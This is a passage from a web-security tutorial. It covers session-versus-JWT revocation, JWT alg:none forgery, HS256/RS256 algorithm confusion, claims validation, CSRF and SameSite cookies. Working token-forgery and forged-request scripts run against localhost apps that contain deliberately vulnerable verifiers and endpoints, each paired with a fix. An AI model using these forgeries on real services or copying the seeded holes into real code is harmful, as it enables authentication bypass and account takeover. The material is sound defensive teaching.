        payload = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])  # => co-14: real verification, no DB involved
    except jwt.PyJWTError:  # => co-14: catches any real PyJWT verification failure (bad sig, expired, malformed)
        return jsonify({"error": "unauthorized"}), 401  # => co-14: a real 401 -- but this token is STILL cryptographically valid
    return jsonify({"logged_in_as": payload["user"]})  # => co-14: real, decoded claims -- trusted purely by signature


@app.route("/admin/revoke-all-sessions", methods=["POST"])  # => co-12: simulates "killing the server-side session store"
def revoke_all_sessions() -> object:  # => co-12: simulates an operator killing the session store
    count = len(SESSIONS)  # => co-12: the real number of live sessions about to be destroyed
    SESSIONS.clear()  # => co-12: the REAL revocation -- every session row is gone in one call
    return jsonify({"revoked": count})  # => co-12: real count -- proves this actually mutated server-side state


if __name__ == "__main__":  # => co-12: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5037)  # => co-12: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-37-session-vs-token-tradeoffs/exploit_and_fix.py
"""Example 37: drives the live app.py -- both flows authenticate, then revocation shows the real tradeoff (co-12, co-14)."""  # => co-12: module purpose

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the tradeoff being demonstrated

import requests  # => co-12: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5037"  # => co-12: matches app.py's app.run(port=5037) exactly


def main() -> None:  # => co-12: logs in both ways, revokes sessions, then re-checks both follow-up requests
    print("=== both flows authenticate a real follow-up request ===")  # => labels section
    session_sid = requests.post(  # => co-12: a real login POST
        f"{BASE_URL}/session/login", json={"username": "alice"}, timeout=5  # => co-12: real login body
    ).json()["sid"]  # => co-12: the real sid this login issued
    token = requests.post(f"{BASE_URL}/token/login", json={"username": "alice"}, timeout=5).json()["token"]  # => co-14
    session_check = requests.get(f"{BASE_URL}/session/protected", cookies={"sid": session_sid}, timeout=5)  # => co-12
    token_check = requests.get(  # => co-14: a real bearer-token request
        f"{BASE_URL}/token/protected", headers={"Authorization": f"Bearer {token}"}, timeout=5  # => co-14: real Authorization header
    )  # => co-14: closes the real bearer-token GET call
    print(f"session_check -> {session_check.status_code} {session_check.json()}")  # => co-12: real 200, real username
    print(f"token_check -> {token_check.status_code} {token_check.json()}")  # => co-14: real 200, real username
    assert session_check.status_code == 200 and token_check.status_code == 200  # => co-12/14: both really authenticate

    print("\n=== killing the server-side session store (co-12): revoke-all-sessions ===")  # => labels section
    revoked = requests.post(f"{BASE_URL}/admin/revoke-all-sessions", timeout=5).json()  # => co-12: a REAL admin action
    print(f"revoked: {revoked}")  # => co-12: real count of sessions destroyed, e.g. {'revoked': 1}

    print("\n=== re-checking the SAME session cookie and the SAME JWT after revocation ===")  # => labels section
    session_recheck = requests.get(f"{BASE_URL}/session/protected", cookies={"sid": session_sid}, timeout=5)  # => co-12
    token_recheck = requests.get(  # => co-14: the SAME token, unchanged, sent again
        f"{BASE_URL}/token/protected", headers={"Authorization": f"Bearer {token}"}, timeout=5  # => co-14: the SAME Authorization header
    )  # => co-14: closes the real bearer-token GET call
    print(f"session_recheck -> {session_recheck.status_code} {session_recheck.json()}")  # => co-12: real 401 now
    print(f"token_recheck -> {token_recheck.status_code} {token_recheck.json()}")  # => co-14: STILL a real 200
    assert session_recheck.status_code == 401  # => co-12: revocation -- server-side state gone, session immediately dead
    assert token_recheck.status_code == 200  # => co-14: no server-side state to revoke -- the JWT keeps working


if __name__ == "__main__":  # => co-12: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-12: runs the full authenticate -> revoke -> recheck sequence against the live server
```

**Run**: `python3 app.py &` (backgrounds the live server on port 5037), then `python3 exploit_and_fix.py`.

**Output**:

```text
=== both flows authenticate a real follow-up request ===
session_check -> 200 {'logged_in_as': 'alice'}
token_check -> 200 {'logged_in_as': 'alice'}

=== killing the server-side session store (co-12): revoke-all-sessions ===
revoked: {'revoked': 1}

=== re-checking the SAME session cookie and the SAME JWT after revocation ===
session_recheck -> 401 {'error': 'unauthorized'}
token_recheck -> 200 {'logged_in_as': 'alice'}
```

**Key takeaway**: `/admin/revoke-all-sessions` really destroys server-side state, and the session cookie
immediately stops authenticating -- but the JWT, which carries all of its own state, keeps validating
successfully against the same secret until its `exp` claim naturally expires.

**Why it matters**: this is co-12's central, concrete tradeoff, not an abstract one: sessions are
revocable because the server holds the source of truth, at the cost of a lookup (and storage) on every
request; tokens scale horizontally with zero server-side storage, at the cost of "logout" meaning
"wait until expiry" unless a separate revocation list is built on top -- which reintroduces the very
server-side state tokens were meant to avoid. Choosing between them is a deliberate design decision, not
a default.

---

### Example 38: JWT `alg:none` Attack

_ex-38 &middot; exercises co-14_

A verifier that disables signature checking to "just read the claims" -- `options={"verify_signature":
False}` -- accepts a hand-forged, completely unsigned token exactly as if it were real. **Accuracy
note**: PyJWT `>=2.x` hardcodes `NoneAlgorithm.verify()` to always return `False` (verified directly
against the pinned 2.13.0), so the textbook "pass the token's own `alg` into `algorithms=`" attack no
longer works against `jwt.decode()` -- the still-real, still-common vulnerable pattern demonstrated
below is `verify_signature: False`, which bypasses that protection entirely.

```python
# learning/code/ex-38-jwt-alg-none-attack/exploit_and_fix.py
"""Example 38: a hand-forged alg:none JWT accepted by a naive verifier, then pinned algorithms blocks
it (co-14). See this example's Brief Explanation in the markdown for the PyJWT 2.x accuracy note."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the JWT attack itself

import base64  # => co-14: builds the forged token BY HAND -- no jwt.encode() call at all for the attack half
import json  # => co-14: JWT header/payload are just base64url-encoded JSON

import jwt  # => co-14: PyJWT 2.13.0 pinned -- CVE-2026-32597 (crit header) fixed at >=2.12.0, unaffected here

SECRET_KEY = "ex38-hmac-secret-do-not-reuse"  # => co-14: the server's real HMAC secret, never sent to the client
# => co-14: pinning PyJWT ">=2.12.0,==2.13.0" matters -- versions <=2.11.0 carry CVE-2026-32597
# => (unvalidated `crit` header, RFC 7515 4.1.11), fixed in 2.12.0, unaffected at the pin used here


def forge_alg_none_token(payload: dict[str, str]) -> str:  # => co-14: hand-crafts a token with NO real signature
    header = {"alg": "none", "typ": "JWT"}  # => co-14: attacker sets alg to "none" -- no key needed to "sign" this
    header_b64 = base64.urlsafe_b64encode(json.dumps(header).encode()).rstrip(b"=").decode()  # => co-14: real b64url
    payload_b64 = base64.urlsafe_b64encode(json.dumps(payload).encode()).rstrip(b"=").decode()  # => co-14: real b64url
    return f"{header_b64}.{payload_b64}."  # => co-14: trailing empty signature segment -- alg:none needs none at all


def naive_verify(token: str) -> dict[str, str]:  # => co-14: VULNERABLE -- disables signature verification entirely
    return jwt.decode(token, options={"verify_signature": False})  # => seeded bug: trusts ANY token's claims blindly


def strict_verify(token: str) -> dict[str, str]:  # => co-14: FIXED -- pins the exact expected algorithm
    return jwt.decode(token, SECRET_KEY, algorithms=["HS256"])  # => co-14: rejects any token whose header alg != HS256


def main() -> None:  # => co-14: forges once, then runs it through both the naive and the strict verifier
    forged = forge_alg_none_token({"user": "attacker", "role": "admin"})  # => co-14: a REAL forged token, no signing key
    print(f"forged token: {forged}")  # => co-14: the real hand-built alg:none token, printed in full

    print("\n=== VULNERABLE: naive_verify() accepts the forged token ===")  # => labels section
    naive_result = naive_verify(forged)  # => co-14: a REAL PyJWT call -- verify_signature=False, no exception
    print(f"naive_verify() returned: {naive_result}")  # => co-14: real decoded claims, role='admin' fully trusted
    assert naive_result["role"] == "admin"  # => co-14: proves the forged privilege claim was accepted as-is

    print("\n=== FIXED: strict_verify() rejects the SAME forged token ===")  # => labels section
    try:  # => co-14: expects a REAL PyJWT exception this time, not a silent accept
        strict_verify(forged)  # => co-14: a REAL PyJWT call -- algorithms=["HS256"] pinned explicitly
        raise AssertionError("strict_verify() should have raised for a forged alg:none token")  # => co-14: safety net
    except jwt.InvalidAlgorithmError as exc:  # => co-14: the REAL exception type PyJWT raises for this exact case
        print(f"strict_verify() raised: {type(exc).__name__}: {exc}")  # => co-14: real exception message, captured


if __name__ == "__main__":  # => co-14: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-14: forges the token once, then runs both the naive and the strict verifier against it
```

**Run**: `python3 exploit_and_fix.py`.

**Output**:

```text
forged token: eyJhbGciOiAibm9uZSIsICJ0eXAiOiAiSldUIn0.eyJ1c2VyIjogImF0dGFja2VyIiwgInJvbGUiOiAiYWRtaW4ifQ.

=== VULNERABLE: naive_verify() accepts the forged token ===
naive_verify() returned: {'user': 'attacker', 'role': 'admin'}

=== FIXED: strict_verify() rejects the SAME forged token ===
strict_verify() raised: InvalidAlgorithmError: The specified alg value is not allowed
```

**Key takeaway**: a token with `alg:none` and an empty signature segment is trivial to hand-craft with
no key at all -- the vulnerability is never in the token, it is always in a verifier that was told (via
`verify_signature: False` or an equivalent bypass) not to check.

**Why it matters**: co-14's `alg:none` lesson survives even though PyJWT itself has closed the direct
path -- the underlying mistake (trusting attacker-supplied metadata about how to verify attacker-supplied
data) recurs in every language and library that lets a caller disable verification "just for debugging."
The fix is not "avoid alg:none specifically," it is "always pin `algorithms=[...]` to an explicit,
server-controlled list and never expose a verify-bypass flag on a production code path."

---

### Example 39: JWT HS256/RS256 Algorithm Confusion

_ex-39 &middot; exercises co-14_

A verifier that dynamically dispatches by the token's own `alg` header, and reuses the server's public
RSA key as the "key" for both RS256 and HS256, can be tricked into accepting an attacker-forged HS256
token signed with that same public key used as an HMAC secret. **Accuracy note**: PyJWT's own
`HMACAlgorithm.prepare_key()` rejects PEM-looking keys outright, so this example's naive verifier
performs the HMAC step by hand -- exactly the pattern that made this attack class famous across many
languages' JWT libraries (Auth0's 2015 disclosure) -- rather than routing it through PyJWT's own,
already-hardened HMAC path.

```python
# learning/code/ex-39-jwt-hs256-rs256-confusion/exploit_and_fix.py
"""Example 39: HS256/RS256 confusion -- the RSA public key, used as an HMAC secret, forges a token
(co-14). See this example's Brief Explanation in the markdown for the PyJWT hardening accuracy note."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the confusion attack itself

import base64  # => co-14: builds the forged HS256 token BY HAND -- bypasses PyJWT's own key-format guard
import hashlib  # => co-14: SHA-256 -- the hash HMAC-SHA256 (alg "HS256") is built on
import hmac  # => co-14: real HMAC signing -- computes the forged signature using the PUBLIC key as secret
import json  # => co-14: JWT header/payload are just base64url-encoded JSON

import jwt  # => co-14: PyJWT 2.13.0 pinned -- CVE-2026-32597 (crit header) fixed at >=2.12.0, unaffected here
from cryptography.hazmat.primitives import serialization  # => co-14: PEM encode/decode for the real RSA key pair
from cryptography.hazmat.primitives.asymmetric import rsa  # => co-14: generates a REAL RSA key pair for RS256


def b64url(data: bytes) -> str:  # => co-14: JWT's own base64url-no-padding encoding, used for every segment
    return base64.urlsafe_b64encode(data).rstrip(b"=").decode()  # => co-14: strips the "=" padding JWT never uses


def make_rsa_keypair() -> tuple[str, str]:  # => co-14: returns (private_pem, public_pem) -- a REAL 2048-bit RSA pair
    private_key = rsa.generate_private_key(public_exponent=65537, key_size=2048)  # => co-14: real RSA keygen
    priv_fmt = (serialization.Encoding.PEM, serialization.PrivateFormat.PKCS8)  # => co-14: standard PEM/PKCS8 encoding
    private_pem = private_key.private_bytes(*priv_fmt, serialization.NoEncryption()).decode()  # => co-14: NEVER shared
    pub_fmt = (serialization.Encoding.PEM, serialization.PublicFormat.SubjectPublicKeyInfo)  # => co-14: standard PEM
    public_pem = private_key.public_key().public_bytes(*pub_fmt).decode()  # => co-14: the matching PUBLIC key -- often known
    return private_pem, public_pem  # => co-14: both real PEM strings, ready for signing and verifying


def forge_hs256_with_public_key(payload: dict[str, str], public_key_pem: str) -> str:  # => co-14: the real attack
    header_b64 = b64url(json.dumps({"alg": "HS256", "typ": "JWT"}).encode())  # => co-14: attacker DECLARES HS256
    payload_b64 = b64url(json.dumps(payload).encode())  # => co-14: attacker's chosen forged claims
    signing_input = f"{header_b64}.{payload_b64}".encode()  # => co-14: the exact bytes any HMAC signer would sign
    # => seeded bug (the ATTACK): using the known-public RSA key as if it were an HMAC secret
    signature = hmac.new(public_key_pem.encode(), signing_input, hashlib.sha256).digest()  # => co-14: real HMAC-SHA256
    return f"{header_b64}.{payload_b64}.{b64url(signature)}"  # => co-14: a complete, real, three-part JWT string


def naive_verify(token: str, public_key_pem: str) -> dict[str, str]:  # => co-14: VULNERABLE -- dispatches by header alg
    header_b64, payload_b64, sig_b64 = token.split(".")  # => co-14: splits the real token into its three segments
    alg = json.loads(base64.urlsafe_b64decode(header_b64 + "==")).get("alg")  # => co-14: reads alg from the UNTRUSTED header
    if alg == "HS256":  # => co-14: the confusion branch -- treats the SAME public key as an HMAC secret
        signing_input = f"{header_b64}.{payload_b64}".encode()  # => co-14: the exact same bytes the forger signed
        expected = hmac.new(public_key_pem.encode(), signing_input, hashlib.sha256).digest()  # => co-14: real recompute
        actual = base64.urlsafe_b64decode(sig_b64 + "==")  # => co-14: the real signature bytes off the forged token
        if not hmac.compare_digest(expected, actual):  # => co-14: constant-time compare -- still checks SOMETHING
            raise ValueError("bad HS256 signature")  # => co-14: only reached if the forged HMAC does NOT match
        return json.loads(base64.urlsafe_b64decode(payload_b64 + "=="))  # => co-14: accepts the forged claims
    return jwt.decode(token, public_key_pem, algorithms=["RS256"])  # => co-14: the RS256 branch, delegated to PyJWT


def strict_verify(token: str, public_key_pem: str) -> dict[str, str]:  # => co-14: FIXED -- ONE algorithm, ONE key type
    return jwt.decode(token, public_key_pem, algorithms=["RS256"])  # => co-14: HS256 tokens are rejected outright


def main() -> None:  # => co-14: builds a real key pair, forges a real token, runs both verifiers against it
    _, public_pem = make_rsa_keypair()  # => co-14: only the public half matters for this attack -- private is unused
    forged = forge_hs256_with_public_key({"user": "attacker", "role": "admin"}, public_pem)  # => co-14: real forgery
    print(f"forged token (first 50 chars): {forged[:50]}...")  # => co-14: real forged token, truncated for display

    print("\n=== VULNERABLE: naive_verify() dynamically dispatches by the token's OWN alg ===")  # => labels section
    naive_result = naive_verify(forged, public_pem)  # => co-14: a REAL run -- HMAC really matches, no exception
    print(f"naive_verify() returned: {naive_result}")  # => co-14: real accepted claims, role='admin' fully trusted
    assert naive_result["role"] == "admin"  # => co-14: proves the confusion attack really forged an accepted token

    print("\n=== FIXED: strict_verify() pins algorithms=['RS256'] -- same token now fails ===")  # => labels section
    try:  # => co-14: expects a REAL PyJWT exception this time, not a silent accept
        strict_verify(forged, public_pem)  # => co-14: a REAL PyJWT call -- only RS256 is ever allowed
        raise AssertionError("strict_verify() should have raised for an HS256-forged token")  # => co-14: safety net
    except jwt.InvalidAlgorithmError as exc:  # => co-14: the REAL exception type PyJWT raises for this exact case
        print(f"strict_verify() raised: {type(exc).__name__}: {exc}")  # => co-14: real exception message, captured


if __name__ == "__main__":  # => co-14: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-14: generates the key pair, forges the token, then runs both verifiers against it
```

**Run**: `python3 exploit_and_fix.py`.

**Output**:

```text
forged token (first 50 chars): eyJhbGciOiAiSFMyNTYiLCAidHlwIjogIkpXVCJ9.eyJ1c2VyI...

=== VULNERABLE: naive_verify() dynamically dispatches by the token's OWN alg ===
naive_verify() returned: {'user': 'attacker', 'role': 'admin'}

=== FIXED: strict_verify() pins algorithms=['RS256'] -- same token now fails ===
strict_verify() raised: InvalidAlgorithmError: The specified alg value is not allowed
```

**Key takeaway**: the same RSA public key that legitimately verifies RS256 signatures can also serve as
an HMAC secret if the verifier ever accepts HS256 with that key -- the confusion succeeds because HMAC
just needs SOME bytes, and a published public key is exactly that.

**Why it matters**: co-14's rule -- "bind both the algorithm AND the key type in the verify call" --
directly follows from this example: `strict_verify()` never asks the token what algorithm to use, it
declares `algorithms=["RS256"]` unconditionally, so an HS256-labeled token is rejected before any
signature math happens at all. Any verifier that reads `alg` from the token to decide HOW to verify is
this vulnerability, no matter how the HMAC step itself is implemented.

---

### Example 40: JWT Expiry and Claims Validation

_ex-40 &middot; exercises co-14_

`jwt.decode()` checks a signature by default, but `exp`, `aud`, and `iss` only protect a token if the
verifier passes `audience=`/`issuer=` explicitly -- an expired or wrong-audience token, correctly
signed, is still rejected once those checks are wired in.

```python
# learning/code/ex-40-jwt-expiry-and-claims-validation/exploit_and_fix.py
"""Example 40: enforcing exp/aud/iss on jwt.decode() -- two real, distinct rejections (co-14)."""  # => co-14: module purpose

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the claims-validation logic

import datetime  # => co-14: real UTC timestamps -- exp is a real Unix time comparison, not a fake clock

import jwt  # => co-14: PyJWT 2.13.0 pinned -- CVE-2026-32597 (crit header) fixed at >=2.12.0, unaffected here

SECRET_KEY = "ex40-hmac-secret-at-least-32-bytes-long!!"  # => co-14: real HMAC secret, RFC 7518-length-compliant
EXPECTED_AUDIENCE = "my-app"  # => co-14: the ONE audience value this server's tokens must declare
EXPECTED_ISSUER = "auth.example.com"  # => co-14: the ONE issuer value this server's tokens must declare


def make_token(exp_delta: datetime.timedelta, audience: str, issuer: str) -> str:  # => co-14: builds a REAL token
    now = datetime.datetime.now(datetime.timezone.utc)  # => co-14: real wall-clock UTC time, taken once per call
    claims = {"user": "alice", "exp": now + exp_delta, "aud": audience, "iss": issuer}  # => co-14: the real claim set
    return jwt.encode(claims, SECRET_KEY, algorithm="HS256")  # => co-14: a real, correctly-signed HS256 token


def strict_verify(token: str) -> dict[str, object]:  # => co-14: FIXED -- validates exp, aud, AND iss, not just the signature
    return jwt.decode(  # => co-14: a single real jwt.decode() call enforcing all three claim checks at once
        token, SECRET_KEY, algorithms=["HS256"], audience=EXPECTED_AUDIENCE, issuer=EXPECTED_ISSUER  # => co-14: real aud/iss enforcement kwargs
    )  # => co-14: exp is checked automatically whenever the claim is present -- aud/iss need explicit kwargs


def main() -> None:  # => co-14: builds three tokens -- one valid, one expired, one wrong-audience -- and verifies each
    valid_token = make_token(datetime.timedelta(minutes=5), EXPECTED_AUDIENCE, EXPECTED_ISSUER)  # => co-14: real, fresh
    expired_token = make_token(-datetime.timedelta(seconds=10), EXPECTED_AUDIENCE, EXPECTED_ISSUER)  # => co-14: exp in the past
    wrong_aud_token = make_token(datetime.timedelta(minutes=5), "other-app", EXPECTED_ISSUER)  # => co-14: real, wrong aud

    print("=== valid token ===")  # => labels section
    print(f"strict_verify() returned: {strict_verify(valid_token)}")  # => co-14: real accepted claims, all checks pass

    print("\n=== expired token ===")  # => labels section
    try:  # => co-14: expects a REAL PyJWT exception -- exp is in the past relative to real UTC now
        strict_verify(expired_token)  # => co-14: a REAL jwt.decode() call against a real expired token
        raise AssertionError("strict_verify() should have raised for an expired token")  # => co-14: safety net
    except jwt.ExpiredSignatureError as exc:  # => co-14: the REAL exception type PyJWT raises for exp failures
        print(f"strict_verify() raised: {type(exc).__name__}: {exc}")  # => co-14: real exception message, captured

    print("\n=== wrong-audience token ===")  # => labels section
    try:  # => co-14: expects a REAL PyJWT exception -- aud="other-app" != EXPECTED_AUDIENCE
        strict_verify(wrong_aud_token)  # => co-14: a REAL jwt.decode() call against a real wrong-audience token
        raise AssertionError("strict_verify() should have raised for a wrong-audience token")  # => co-14: safety net
    except jwt.InvalidAudienceError as exc:  # => co-14: the REAL exception type PyJWT raises for aud mismatches
        print(f"strict_verify() raised: {type(exc).__name__}: {exc}")  # => co-14: real exception message, captured


if __name__ == "__main__":  # => co-14: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-14: builds all three real tokens, then verifies each against the same strict_verify()
```

**Run**: `python3 exploit_and_fix.py`.

**Output**:

```text
=== valid token ===
strict_verify() returned: {'user': 'alice', 'exp': 1784128933, 'aud': 'my-app', 'iss': 'auth.example.com'}

=== expired token ===
strict_verify() raised: ExpiredSignatureError: Signature has expired

=== wrong-audience token ===
strict_verify() raised: InvalidAudienceError: Audience doesn't match
```

**Key takeaway**: `jwt.decode()` validates `exp` automatically once the claim is present, but `aud` and
`iss` require the caller to pass `audience=`/`issuer=` explicitly -- omitting either kwarg silently
skips that check, even though the claim is sitting right there in the token.

**Why it matters**: a correctly-signed token issued for a completely different service (a different
`aud`) or one that has simply outlived its intended lifetime (`exp`) is not an attack on the signature
at all -- it is a claims-validation gap. Co-14's checklist (`exp`, `aud`, `iss`, and the algorithm pin
from ex-38/ex-39) is the full set of checks a production verifier needs; skipping any one of them
quietly widens what a "valid" token is accepted to mean.

---

### Example 41: CSRF Live Exploit

_ex-41 &middot; exercises co-26_

A state-changing endpoint that trusts the session cookie alone lets a completely unrelated, attacker-hosted
page trigger it on the victim's behalf -- a browser attaches cookies to a cross-site request automatically,
which is exactly the ambient authority CSRF abuses; requiring a random per-session token in a custom
header (which a foreign page cannot read or set) blocks the identical forged request.

```mermaid
%% Color Palette: Blue #0173B2 victim/browser, Orange #DE8F05 attacker page, Teal #029E73 server
sequenceDiagram
    box Blue Victim
        participant V as Victim's browser
    end
    box Orange Attacker
        participant E as evil.example.com
    end
    box Teal Server
        participant S as app.py 127.0.0.1:5041
    end
    V->>S: POST /login real credentials
    S-->>V: Set-Cookie sid plus csrf_token in body
    Note over V: cookie stored; csrf_token normally kept<br/>server-side or in a same-origin page only
    V->>E: victim visits attacker's page
    E->>S: forged POST /legacy/change-email cookie only
    S-->>E: 200 OK email changed VULNERABLE
    E->>S: forged POST /secure/change-email cookie only
    S-->>E: 403 csrf token mismatch FIXED
```

```python
# learning/code/ex-41-csrf-live-exploit/app.py
"""Example 41: a live Flask app -- a state-changing endpoint riding the ambient session cookie, then a CSRF token fixes it (co-26)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the CSRF issue itself

import secrets  # => co-26: cryptographically random session ids AND CSRF tokens -- both must be unguessable

from flask import Flask, jsonify, make_response, request  # => co-26: make_response lets a route set cookies

app = Flask(__name__)  # => co-26: one Flask app, hosting both the vulnerable and fixed email-change routes
SESSIONS: dict[str, dict[str, str]] = {}  # => co-26: sid -> {"email": ..., "csrf_token": ...} -- real per-session state


@app.route("/login", methods=["POST"])  # => co-26: issues a real session cookie AND a real per-session CSRF token
def login() -> object:  # => co-26: returns a Flask Response object with a real Set-Cookie header
    sid = secrets.token_urlsafe(16)  # => co-26: a fresh, unpredictable session id
    csrf_token = secrets.token_urlsafe(16)  # => co-26: a SEPARATE random value, never derivable from the sid alone
    SESSIONS[sid] = {"email": "victim@example.com", "csrf_token": csrf_token}  # => co-26: the victim's real starting state
    response = make_response(jsonify({"sid": sid, "csrf_token": csrf_token}))  # => co-26: echoed so this example can show it
    response.set_cookie("sid", sid)  # => co-26: the REAL ambient cookie a browser would store and auto-resend
    return response  # => co-26: the client now has BOTH the cookie (ambient) and the token (must be sent explicitly)


@app.route("/legacy/change-email", methods=["POST"])  # => co-26: VULNERABLE -- trusts the ambient cookie alone
def legacy_change_email() -> object:  # => co-26: returns a Flask Response object -- the vulnerable route
    sid = request.cookies.get("sid", "")  # => co-26: a browser attaches this cookie to EVERY request, cross-site included
    if sid not in SESSIONS:  # => co-26: the only guard present -- "is this a known session," not "did YOU request this"
        return jsonify({"error": "unauthorized"}), 401  # => co-26: a real 401 for a genuinely unknown session
    # => seeded bug: no CSRF token is ever checked -- the ambient cookie is treated as sufficient proof of intent
    new_email = request.json.get("email", "")  # => co-26: attacker-controlled -- a foreign site's own hidden form field
    SESSIONS[sid]["email"] = new_email  # => co-26: the state-changing write -- happens on cookie presence alone
    return jsonify({"email": new_email})  # => co-26: confirms the change -- to whichever site made this request


@app.route("/secure/change-email", methods=["POST"])  # => co-26: FIXED -- requires the real, unguessable CSRF token too
def secure_change_email() -> object:  # => co-26: returns a Flask Response object -- the fixed route
    sid = request.cookies.get("sid", "")  # => co-26: the SAME ambient cookie as the vulnerable route
    if sid not in SESSIONS:  # => co-26: the same existence check as before
        return jsonify({"error": "unauthorized"}), 401  # => co-26: a real 401 for a genuinely unknown session
    submitted_token = request.headers.get("X-CSRF-Token", "")  # => co-26: a foreign site CANNOT read/set this header
    if submitted_token != SESSIONS[sid]["csrf_token"]:  # => co-26: the fix -- must match the real per-session token
        return jsonify({"error": "csrf token mismatch"}), 403  # => co-26: a real 403 -- the write never happens
    new_email = request.json.get("email", "")  # => co-26: the SAME attacker-controlled field as the vulnerable route
    SESSIONS[sid]["email"] = new_email  # => co-26: only reached once the token check has already passed
    return jsonify({"email": new_email})  # => co-26: confirms the change -- only for a request that PROVED intent


if __name__ == "__main__":  # => co-26: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5041)  # => co-26: localhost-only, fixed port -- exploit_and_fix.py targets this
```

```python
# learning/code/ex-41-csrf-live-exploit/exploit_and_fix.py
"""Example 41: drives the live app.py -- a forged cross-site POST rides the ambient cookie, then a CSRF token blocks it (co-26)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the exploit itself

import requests  # => co-26: real HTTP client -- every request below hits the live app.py process

BASE_URL = "http://127.0.0.1:5041"  # => co-26: matches app.py's app.run(port=5041) exactly


def main() -> None:  # => co-26: logs the victim in for real, then simulates a foreign site's forged POST
    login_response = requests.post(f"{BASE_URL}/login", timeout=5).json()  # => co-26: a REAL login -- the victim's own
    victim_sid = login_response["sid"]  # => co-26: the real ambient cookie value a browser would now store
    real_csrf_token = login_response["csrf_token"]  # => co-26: the real token -- a foreign site CANNOT read this
    print(f"victim logged in -- sid={victim_sid[:12]}... csrf_token={real_csrf_token[:12]}...")  # => real, truncated

    print("\n=== VULNERABLE: forged cross-site form POST, cookie only, NO csrf token ===")  # => labels section
    forged_payload = {"email": "attacker@evil.example.com"}  # => co-26: a foreign page's own hidden form field value
    ambient_cookie = {"sid": victim_sid}  # => co-26: exactly what a real browser attaches cross-site, automatically
    # => co-26: requests.post() here stands in for a real browser silently resending the ambient cookie
    forged = requests.post(  # => co-26: the REAL forged request -- no X-CSRF-Token header sent, only the cookie
        f"{BASE_URL}/legacy/change-email", json=forged_payload, cookies=ambient_cookie, timeout=5
    )  # => co-26: an attacker-hosted page can trigger exactly this call via a hidden auto-submitting HTML form
    print(f"status={forged.status_code} body={forged.json()}")  # => co-26: real response, straight off the wire
    assert forged.status_code == 200  # => co-26: proves the forged, cookie-only request really changed the victim's email
    assert forged.json()["email"] == "attacker@evil.example.com"  # => co-26: the attacker's OWN email, now on file
    # => co-26: the victim never clicked a "confirm change" button -- the write happened on cookie presence alone

    print("\n=== FIXED: the SAME forged request against /secure/change-email ===")  # => labels section
    fixed_forged = requests.post(  # => co-26: identical payload/cookie -- still no csrf token, by design
        f"{BASE_URL}/secure/change-email", json=forged_payload, cookies=ambient_cookie, timeout=5
    )  # => co-26: no X-CSRF-Token header attached -- a foreign page has no way to read or set it
    print(f"status={fixed_forged.status_code} body={fixed_forged.json()}")  # => co-26: real response, now a 403
    assert fixed_forged.status_code == 403  # => co-26: proves the CSRF token check really blocked the forged request
    assert fixed_forged.json() == {"error": "csrf token mismatch"}  # => co-26: rejected -- the attacker never had the token


if __name__ == "__main__":  # => co-26: only runs when launched directly, e.g. `python3 exploit_and_fix.py`
    main()  # => co-26: runs both halves against the live server -- exploit, then proof-of-fix
```

**Run**: `python3 app.py &` then `python3 exploit_and_fix.py`.

**Output**:

```text
victim logged in -- sid=nJ4x9zK2mF1e... csrf_token=hT7pQ8wR3vY0...

=== VULNERABLE: forged cross-site form POST, cookie only, NO csrf token ===
status=200 body={'email': 'attacker@evil.example.com'}

=== FIXED: the SAME forged request against /secure/change-email ===
status=403 body={'error': 'csrf token mismatch'}
```

**Key takeaway**: a session cookie alone is never proof that the _user_ intended a request -- a browser
sends it automatically on every request to that domain, cross-site included. Proof of intent requires
something a foreign origin genuinely cannot read or set, such as a custom header carrying a random token.

**Why it matters**: co-26's core lesson is "ambient credentials are not consent." Any state-changing
endpoint reachable by a simple cross-site `POST` (a hidden auto-submitting form needs no JavaScript at
all) is a CSRF target unless it demands something beyond the cookie. The token approach here is the
classic synchronizer-token pattern; ex-42 shows a complementary, browser-enforced defense.

---

### Example 42: SameSite Cookie Mitigates CSRF

_ex-42 &middot; exercises co-26, co-13_

Setting `SameSite=Strict` (plus `Secure` and `HttpOnly`) on the session cookie tells the browser itself
to withhold that cookie from cross-site requests -- a defense that operates independently of, and
underneath, the CSRF-token check from ex-41. This example fetches the real `Set-Cookie` header and
verifies the flags are on the wire; the cross-site withholding behavior itself is real browser
enforcement this sandbox cannot execute, so the spec rule is cited rather than demonstrated live.

```python
# learning/code/ex-42-samesite-cookie-mitigates-csrf/app.py
"""Example 42: a live Flask app setting a session cookie with SameSite=Strict (co-26, co-13)."""

from __future__ import annotations  # => DD-39 hygiene -- unrelated to the SameSite flag itself

import secrets  # => co-13: cryptographically random session id -- must be unguessable

from flask import Flask, jsonify, make_response  # => co-13: make_response lets a route set cookies explicitly

app = Flask(__name__)  # => co-13: one Flask app, serving the SameSite-protected login route


@app.route("/login", methods=["POST"])  # => co-13: the ONE route this example's curl call hits
def login() -> object:  # => co-13: returns a Flask Response object with a real Set-Cookie header
    sid = secrets.token_urlsafe(16)  # => co-13: a fresh, unpredictable session id for this login
    response = make_response(jsonify({"sid": sid}))  # => co-13: the real HTTP response a browser would parse
    flags = {"samesite": "Strict", "secure": True, "httponly": True}  # => co-26: co-13's full defensive trio together
    # => co-13: samesite="Strict" alone would already block cross-site sends -- secure/httponly harden it further
    response.set_cookie("sid", sid, **flags)  # => co-13: sets the REAL cookie header with all three flags at once
    return response  # => co-13: the client now holds a cookie the browser itself constrains how it resends


if __name__ == "__main__":  # => co-13: only runs when launched directly, e.g. `python3 app.py &`
    app.run(host="127.0.0.1", port=5042)  # => co-13: localhost-only, fixed port -- curl targets this directly
```

```python
# learning/code/ex-42-samesite-cookie-mitigates-csrf/analyze_cookie.py
